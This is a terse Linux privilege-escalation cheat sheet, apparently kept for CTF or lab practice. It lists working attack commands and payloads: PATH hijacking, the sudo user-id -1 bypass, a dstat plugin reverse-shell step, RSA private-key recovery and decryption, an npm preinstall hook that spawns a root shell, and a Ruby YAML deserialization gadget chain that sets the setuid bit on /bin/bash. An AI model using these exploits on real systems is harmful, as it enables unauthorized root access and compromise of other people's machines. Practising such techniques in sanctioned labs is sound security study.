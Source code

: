 # Privsec linux

## Path hijacking

export PATH=/tmp:$PATH

## sudo (ALL, !root) /bin/bash

Exploits

sudo -u#-1 /bin/bash

## dstat privesc

nano /usr/local/share/dstat/dstat_lemon.py // reverse shell

doas -u root /usr/bin/dstat --lemon // run this

and there you go shell on your box

## Rsactftool 

public.crt to exract private.crt

python RsaCtfTool.py --publickey ../public.crt --private

## openssl 

openssl rsautl -decrypt -ssl -inkey private.crt -in key.bin.enc -out output
openssl aes-256-cbc -d -in secret.enc -pass file:output 


## npm privesc

mkdir exploit

echo '{"scripts": {"preinstall": "/bin/sh"}}' > exploit/package.json

sudo /usr/bin/npm -C /dev/shm/exploit/ --unsafe-perm i


## yml privesc

ruby file need to load this dependencies.yml so we modifed the file to do mallicious action that /bin/bash permission change.

```dependencies.yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod 4777 /bin/bash"
```